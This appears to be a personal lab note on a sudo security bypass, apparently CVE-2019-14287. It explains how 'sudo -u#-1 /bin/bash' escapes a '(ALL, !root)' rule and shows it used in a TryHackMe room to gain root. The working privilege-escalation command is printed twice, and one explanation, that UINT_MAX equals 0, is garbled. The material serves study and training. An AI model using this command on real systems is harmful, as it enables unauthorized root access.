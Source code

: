 These is a more recent vulnerability.

The exploit can be found there:
- [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

In this specific case using `sudo -l` we can see that there is:
```python
User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash
```
- This means that `hacker` and other users CAN RUN `/bin/bash` AS SUDO BUT NOT AS ROOT!


The idea is to use:
```bash
sudo -u#-1 /bin/bash
```

This works because:
- `-u#` allows us to specify which user runs the command (using his id `-u#<uid>)
- so using `-1` forces the system to understand it in the wrong way
	- in some system `-1` is interpreted as `UINT_MAX` that is equal to `0`
	- if it is the case the control is bypassed



# testing for it 
First of all we need to join the room in `TryHackMe` called `Sudo security Bypass`:
- [https://tryhackme.com/r/room/sudovulnsbypass](https://tryhackme.com/r/room/sudovulnsbypass)


We connect to it using `ssh` as `tryhackme:tryhackme:
```bash
ssh tryhackme@IP -p 2222
```
- ![[Pasted image 20250116163744.png]]

So using `sudo -l` we obtain:
- ![[Pasted image 20250116163827.png]]


So try to use the CVE bypass:
```bash
sudo -u#-1 /bin/bash
```
- ![[Pasted image 20250116163904.png]]

<mark style="background: #BBFABBA6;">And we get the root!</mark>


